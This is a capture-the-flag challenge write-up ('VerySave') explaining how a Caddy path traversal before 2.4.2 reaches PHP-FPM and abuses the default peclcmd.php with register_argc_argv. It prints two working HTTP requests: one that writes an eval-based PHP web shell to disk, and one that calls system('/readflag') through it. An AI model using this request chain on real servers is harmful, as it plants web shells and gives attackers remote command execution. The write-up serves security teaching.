 # VerySave

## How to Setup Environment

`cd docker && docker-compose up -d`

## Write Up

I learn a funny issue from [2-and-a-bit-of-magic](https://speakerdeck.com/greendog/2-and-a-bit-of-magic)

Caddy before 2.4.2 can path traversal in PHP-FPM

At the same time, I think of [MeowWorld in 巅峰极客](https://www.anquanke.com/post/id/218977#h2-3) and [camp-ctf-2015](https://web.archive.org/web/20201022203937/https://khack40.info/camp-ctf-2015-trolol-web-write-up/). Great thanks to them, I made a fun challenge.

register_argc_argv is TRUE in default PHP docker configuration and peclcmd.php is in default PHP docker.

### Exploit

```
GET /../usr/local/lib/php/peclcmd.php?+config-create+/tmp/<?=eval($_POST[1]);?>/*+/srv/qqqq.php HTTP/1.1
Host: test.local:54120
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


```

And then

```
POST /../tmp/qqqq.php HTTP/1.1
Host: test.local:54120
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

1=system('/readflag');
```